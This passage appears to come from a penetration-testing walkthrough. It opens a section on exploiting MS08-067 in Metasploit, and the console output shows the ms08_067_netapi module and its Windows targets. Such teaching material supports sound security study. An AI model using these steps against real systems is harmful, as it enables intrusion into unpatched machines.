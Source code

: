 ## Exploiting

One of these vulnerabilities is known as `MS08-067` (CVE-2008-4250). If we boot up Metasploit we can search through the available modules:

```bash
$ msfconsole

...

       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2504 exploits - 1291 auxiliary - 393 post       ]
+ -- --=[ 1607 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search MS08-067

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
   1     \_ target: Automatic Targeting                                 .                .      .      .
   2     \_ target: Windows 2000 Universal                              .                .      .      .
   3     \_ target: Windows XP SP0/SP1 Universal                        .                .      .      .
   4     \_ target: Windows 2003 SP0 Universal                          .                .      .      .
   5     \_ target: Windows XP SP2 English (AlwaysOn NX)                .                .      .      .
   6     \_ target: Windows XP SP2 English (NX)                         .                .      .      .
   7     \_ target: Windows XP SP3 English (AlwaysOn NX)                .                .      .      .
   8     \_ target: Windows XP SP3 English (NX)                         .                .      .      .
   9     \_ target: Windows XP SP2 Arabic (NX)                          .                .      .      .
   ...
   79    \_ target: Windows 2003 SP2 Italian (NX)                       .                .      .      .
   80    \_ target: Windows 2003 SP2 Russian (NX)                       .                .      .      .
   81    \_ target: Windows 2003 SP2 Swedish (NX)                       .                .      .      .
   82    \_ target: Windows 2003 SP2 Turkish (NX)                       .                .      .      .


Interact with a module by name or index. For example info 82, use 82 or use exploit/windows/smb/ms08_067_netapi
After interacting with a module you can manually set a TARGET with set TARGET 'Windows 2003 SP2 Turkish (NX)'
```
